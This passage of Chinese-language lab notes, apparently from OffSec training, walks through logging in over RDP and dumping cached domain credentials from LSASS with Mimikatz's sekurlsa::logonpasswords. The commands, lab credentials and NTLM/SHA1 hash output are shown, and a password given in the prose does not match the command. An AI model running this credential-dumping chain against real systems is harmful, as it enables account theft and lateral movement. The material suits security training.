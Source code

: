 以下範例以 CORP\Administrator 使用者身分 (pwd: QWERTY!@#2/）) 登入 RDP 進入 CLIENTWK246:
```
┌──(chw㉿CHW)-[~/Desktop/Offsec]
└─$ xfreerdp /u:"CORP\\Administrator" /p:"QWERTY123\!@#" /v:192.168.145.246 /dynamic-resolution
[00:19:01:640] [769709:769710] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
```
> 當成功連線時， LSASS 已在 memory 中快取了網域用戶的資訊
>> 接著「登出」
>> 使用 本機管理員 offsec 的身分重新登入

```
┌──(chw㉿CHW)-[~/Desktop/Offsec]
└─$ xfreerdp /u:"offsec" /p:"lab" /v:192.168.145.246 /dynamic-resolution
```
![image](https://hackmd.io/_uploads/SkGXbLe91g.png)

#### 2. 登入 local administrator 執行 Mimikatz
```
PS C:\> cd .\tools\mimikatz\
PS C:\tools\mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Oct 20 2023 07:20:39
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 2452263 (00000000:00256b27)
Session           : RemoteInteractive from 3
User Name         : offsec
Domain            : CLIENTWK246
Logon Server      : CLIENTWK246
Logon Time        : 2/16/2025 10:42:00 PM
SID               : S-1-5-21-180219712-1214652076-1814130762-1002
        msv :
         [00000003] Primary
         * Username : offsec
         * Domain   : CLIENTWK246
         * NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e
         * SHA1     : a188967ac5edb88eca3301f93f756ca8e94013a3
         * DPAPI    : a188967ac5edb88eca3301f93f756ca8
        tspkg :
        wdigest :       KO
        kerberos :
         * Username : offsec
         * Domain   : CLIENTWK246
         * Password : (null)
        ssp :
        credman :
        cloudap :

...

Authentication Id : 0 ; 1173179 (00000000:0011e6bb)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : CORP
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir